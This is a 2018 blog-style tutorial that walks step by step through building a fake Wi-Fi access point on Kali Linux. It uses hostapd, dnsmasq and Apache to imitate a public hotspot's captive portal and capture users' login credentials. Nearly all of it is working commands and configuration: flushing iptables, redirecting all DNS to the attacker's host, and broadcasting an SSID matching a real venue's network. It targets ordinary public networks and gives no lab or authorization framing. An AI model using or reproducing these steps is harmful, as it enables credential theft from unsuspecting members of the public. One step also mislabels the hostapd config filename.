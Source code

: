 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, apache, wireshark
---
```


 Note: In this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```shell
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```shell
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set the wifi interface
interface=wlan0
#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h
#Set the gateway IP address
dhcp-option=3,10.0.0.1
#Set dns server address
dhcp-option=6,10.0.0.1
#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```shell
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the below path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```shell
#Set wifi interface
interface=wlan0
#Set network name
ssid=FakeAP
#Set channel
channel=1
#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```shell
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```shell
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```shell
service apache2 start
```
